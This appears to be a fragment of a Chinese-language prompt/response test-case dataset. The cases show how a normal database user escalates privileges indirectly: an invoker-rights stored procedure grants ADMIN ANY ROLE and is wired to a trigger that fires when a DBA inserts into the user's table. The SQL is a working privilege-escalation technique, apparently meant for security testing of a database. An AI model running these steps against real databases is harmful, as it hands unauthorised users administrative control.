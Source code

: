 --创建触发器，调用存储过程
CREATE OR REPLACE TRIGGER INSERT_DUMP
BEFORE INSERT ON USER1.T1
FOR EACH ROW
BEGIN
 --调用存储过程
 CALL DUMP_ANY_TABLE();
END;

--DBA用户
--插入数据，触发触发器进行授权
INSERT INTO USER1.T1 VALUES('SYSDBA');

--USER1用户
--查看权限
SELECT * FROM USER_SYS_PRIVS;"
生成一组测试用例，能够反应触发器通过调用存储过程实现间接提权功能,user1用户是普通用户，创建存储过程执行授权任意该用户未有的权限，创建插入后触发器，执行该存储过程，使用DBA用户插入user1用户的表中，触发触发器调用存储过程进行授权,"--USER1用户
--创建表
CREATE TABLE T2(ID INT, NAME VARCHAR(20));

--创建授权存储过程
CREATE OR REPLACE PROCEDURE ADMIN_ANY_ROLE
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'GRANT ADMIN ANY ROLE TO USER1 WITH ADMIN OPTION';
    COMMIT;
END;

--创建触发器，调用存储过程
CREATE OR REPLACE TRIGGER INSERT_ADMIN_ANY_ROLE
AFTER INSERT ON USER1.T2
FOR EACH ROW
BEGIN
 --调用存储过程
 CALL ADMIN_ANY_ROLE();
END;

--DBA用户
--插入数据，触发触发器进行授权
INSERT INTO USER1.T2 VALUES(1, 'SYSDBA');

--USER1用户
--查看权限
SELECT * FROM USER_SYS_PRIVS;"
生成一组测试用例，能够反应触发器通过调用存储过程实现间接提权功能,user1用户是普通用户，创建存储过程执行授权任意该用户未有的权限，创建更新前触发器，执行该存储过程。使用DBA用户更新user1用户的表，触发触发器调用存储过程进行授权,"--USER1用户
--创建表
CREATE TABLE T3(ID VARCHAR(50));

--插入数据
INSERT INTO T3 VALUES('USER1');
